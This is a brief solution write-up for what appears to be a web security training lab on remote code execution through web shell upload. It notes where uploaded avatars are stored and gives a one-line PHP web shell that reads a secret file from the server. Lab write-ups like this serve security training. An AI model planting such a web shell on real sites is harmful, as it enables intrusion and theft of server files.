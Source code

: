 # Lab: Remote code execution via web shell upload
Solution: 
- Uploaded file is stored at `/files/avatars/`
- I tried uploading an interactive webshell but it wasn't working
- Use the following webshell to directly read the contents of the file:
```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```